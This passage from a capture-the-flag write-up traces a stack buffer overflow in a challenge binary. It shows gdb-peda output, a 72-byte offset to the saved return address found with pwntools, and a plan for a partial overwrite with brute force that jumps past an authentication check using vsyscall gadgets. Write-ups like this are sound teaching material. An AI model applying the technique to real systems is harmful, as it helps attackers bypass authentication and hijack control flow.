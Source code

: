     gdb-peda$ b *check_password_correct + 231
    Breakpoint 1 at 0x7f4713575fb9
    gdb-peda$ continue

    Breakpoint 1, 0x00007f4713575fb9 in check_password_correct ()
    gdb-peda$ x/10gx $rsp
    0x7ffd46f25108: 0x6161617461616173  0x6161617661616175
    0x7ffd46f25118: 0x00007f98631f6177  0x00000000ffffffff
    0x7ffd46f25128: 0x00007ffd46f25101  0x00007ffd46f272b6
    0x7ffd46f25138: 0x0000000000000000  0x00007ffd46f252c8
    0x7ffd46f25148: 0x00007f98631f8469  0x00007ffd46f272b6

The first thing we notice here is that we overwrote the return address from check_password_correct with 0x6161617461616173, that is the hex for 'aaataaas'. Using cyclic_find we can easily understand how many characters we have to write before our forged RIP:

    >>> from pwn import *
    >>> unhex('6161617461616173')
    'aaataaas'
    >>> cyclic_find('saaa')
    72

So, we have to write 72 characters before the RIP.
We can also notice another thing: 0x7ffd46f25118 is very similar to the return address from the require_auth() function, but with the last 2 bytes being overwritten. We can easily verify this:

    gdb-peda$ disas handle_request
    Dump of assembler code for function handle_request:
    [...]
    0x00007f98631f807a <+160>: lea    rdi,[rip+0x3a7]        # 0x7f98631f8428
    0x00007f98631f8081 <+167>: call   0x7f98631f7bc0 <puts@plt>
    0x00007f98631f8086 <+172>: call   0x7f98631f7fba <require_auth>
    0x00007f98631f808b <+177>: lea    rsi,[rip+0x36d]        # 0x7f98631f83ff
    0x00007f98631f8092 <+184>: lea    rdi,[rip+0x3b6]        # 0x7f98631f844f
    0x00007f98631f8099 <+191>: call   0x7f98631f7cd0 <fopen@plt>
    0x00007f98631f809e <+196>: mov    QWORD PTR [rsp+0x40],rax
    0x00007f98631f80a3 <+201>: cmp    QWORD PTR [rsp+0x40],0x0
    0x00007f98631f80a9 <+207>: je     0x7f98631f80c5 <handle_request+235>
    [...]

Good! We're almost there! On the stack we have 0x00007f98631f6177, and we want to return to 0x00007f98631f808b, that is, just after out require_auth() function. We know that pages are aligned, so we know that the last 12 bits of the address where we want to jump to are fixed to 0x08b. We overwrite 16 bits, so we are left with 4 unknown bits... Well, I think that a little of brute force won't be so bad, after all. Anyway, we still have stuff on the stack (or should I say stackstuff?) that we want to get rid of. If only I could make a pop-ret here!



# Looking for something useful

We know that PIE is enabled, so addresses are changing everytime, but after all we don't need that much: pop-ret ret-ret are enough. After a few hours of digging, I found something that could easily bring us to get that damn flag. Running a couple of time the executable and mapping memory sections, I found that the vsyscall memory area had its address fixed
